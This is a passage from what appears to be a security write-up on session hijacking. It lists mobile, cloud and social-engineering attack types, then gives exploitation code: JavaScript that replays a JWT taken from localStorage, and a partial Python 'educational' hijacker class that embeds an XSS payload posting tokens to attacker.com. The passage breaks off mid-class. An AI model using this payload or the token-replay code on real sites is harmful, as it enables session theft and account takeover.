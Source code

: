 ### 3. **Mobile-Specific Attacks**
- **App background attacks**: Tokens exposed when apps are backgrounded
- **Deep linking exploitation**: Session fixation via custom URL schemes
- **Certificate pinning bypass**: MITM attacks on mobile networks

### 4. **Cloud & Microservice Attacks**
- **Service-to-service token theft**: Inter-service authentication compromise
- **Container escape**: Accessing session data from compromised containers
- **Serverless function exploitation**: Session data in function memory/logs

### 5. **Advanced Social Engineering**
- **QR code attacks**: Malicious QR codes for session fixation
- **Push notification hijacking**: Exploiting notification-based 2FA
- **AI-powered phishing**: More convincing phishing attempts using AI

## Practical Exploitation Techniques (2025)

### Browser Developer Tools Method
```javascript
// Modern browser-based session hijacking
// 1. Steal JWT from localStorage
const stolenToken = localStorage.getItem('authToken');

// 2. Use in new browser session
fetch('/api/sensitive-data', {
  headers: {
    'Authorization': `Bearer ${stolenToken}`
  }
});
```

### Automated Tools & Scripts
```python
#!/usr/bin/env python3
"""
Modern session hijacking proof-of-concept (Educational purposes only)
"""
import requests
import jwt
from datetime import datetime, timedelta

class ModernSessionHijacker:
    def __init__(self, target_url):
        self.target_url = target_url
        self.session = requests.Session()
    
    def steal_jwt_via_xss(self, vulnerable_endpoint, payload):
        """Simulate JWT theft via XSS"""
        xss_payload = f"<script>fetch('https://attacker.com/steal', {{method:'POST',body:localStorage.getItem('token')}})</script>"
        # Send XSS payload to vulnerable endpoint
        
    def validate_stolen_token(self, token):
        """Check if stolen token is valid"""
        try:
            decoded = jwt.decode(token, options={"verify_signature": False})
            exp = datetime.fromtimestamp(decoded.get('exp', 0))
            return exp > datetime.now()
        except:
            return False
    
    def exploit_session(self, stolen_token):
```